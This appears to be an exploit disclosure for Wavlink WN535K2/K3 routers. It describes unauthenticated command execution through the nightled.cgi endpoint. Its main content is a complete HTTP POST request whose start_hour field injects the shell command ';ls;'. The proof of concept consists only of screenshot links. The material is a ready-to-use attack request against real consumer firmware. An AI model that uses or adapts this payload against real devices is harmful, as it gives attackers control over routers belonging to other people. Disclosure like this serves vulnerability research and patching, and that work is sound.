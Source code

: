 ###Wavlink nightled.cgi command execution

#### Exploit Title

Wavlink nightled.cgi command execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

```
POST /cgi-bin/nightled.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

page=night_led&start_hour=;ls;
```



#### Proof of Concept

![image-20220701144021889](./image-20220701144021889.png)

![image-20220701144505100](./image-20220701144505100.png)

![image-20220701144600365](./image-20220701144600365.png)